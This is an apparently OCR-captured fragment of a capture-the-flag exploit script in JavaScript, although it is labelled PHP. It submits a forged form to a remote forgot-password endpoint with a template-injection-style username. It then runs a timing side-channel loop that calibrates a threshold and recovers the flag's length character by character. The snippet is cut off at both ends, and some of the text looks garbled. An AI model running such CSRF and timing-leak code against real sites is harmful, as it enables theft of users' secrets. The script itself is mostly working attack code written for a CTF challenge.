 ```php
                }
                measure()
            })
        }

        // csrf and session puzzling
        // make sure users, with username {{upper('upper('a')')}} is available
        formize.action = `${remote}auth/forgot-password{{upper('upper('a')')}}`
        formize.submit()
        
        Array.prototype.sum = function() {
            return this.reduce(function(a, b) {return a+b});
        };
        Array.prototype.max = function() {
            return Math.max.apply(null, this);
        };

        Array.prototype.min = function() {
            return Math.min.apply(null, this);
        };

        function roundFloor(number) {
            let magnitude = Math.pow(10, Math.floor(Math.log10(number)));
            return Math.floor(number / magnitude) * magnitude;
        }

        (async () => {
            let true_res = []
            let false_res = []

            // warming up
            var payload = "_"
            await exploit(payload)
            await exploit(payload)
            
            var payload = "bz"
            await exploit(payload)
            await exploit(payload)

            // finding the ideal threshold
            for (let index = 0; index < 10; index++) {
                var payload = "_"
                true_res.push(await exploit(payload))
            }
            
            log(`result_true: ${true_res}`)
            log(`avg_result_true: ${true_res.sum() / true_res.length}`)
            log(`min_result_true: ${true_res.min()}`)

            let threshold = roundFloor(true_res.min())
            log("thresh: " + threshold)

            // determine the flag length
            let length = 1
            while(true){
                payload = "_".repeat(length)
                time = await exploit(payload)
                log("time: " + time)

                // find until the username isn't rendered; the response should be faster
                if(time <= threshold){
                    flag_length = length-1
                    log(`flag_length: ${flag_length}`)
```